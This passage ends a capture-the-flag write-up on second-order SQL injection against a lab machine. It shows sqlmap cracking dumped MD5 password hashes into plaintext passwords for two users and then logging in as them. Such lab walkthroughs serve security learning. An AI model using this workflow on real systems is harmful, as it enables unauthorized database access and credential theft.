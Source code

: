     do you want to crack them via a dictionary-based attack? [Y/n/q] y
    [06:55:02] [INFO] using hash method 'md5_generic_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [06:55:07] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N]
    [06:55:09] [INFO] starting dictionary-based cracking (md5_generic_passwd)
    [06:55:09] [INFO] starting 4 processes
    [06:55:12] [INFO] cracked password 'nofear' for user 'delfy'
    [06:55:12] [INFO] cracked password 'nimda' for user 'admin'
    Database: notes
    Table: users
    [2 entries]
    +----+----------+-------------------------------------------+
    | id | username | password                                  |
    +----+----------+-------------------------------------------+
    | 1  | admin    | ee10c315eba2c75b403ea99136f5b48d (nimda)  |
    | 67 | delfy    | c11200b1c60d38eded1effbca7653675 (nofear) |
    +----+----------+-------------------------------------------+
    

And, after letting `sqlmap` crack the hashes, we can log in as admin and
delfy:

![1530701860559](https://0xdfimages.gitlab.io/img/1530701860559.png)
![1530701903143](https://0xdfimages.gitlab.io/img/1530701903143.png)

## Conclusion

Second Order SQL Injection is tricky, and there’s almost never going to be a
tool that just does it for you. But, if you can write a python script, you can
make `sqlpmap` do what you’re looking for and get the data from the database.

[](/2018/07/07/second-order-sql-injection-on-htb-nightmare.html)

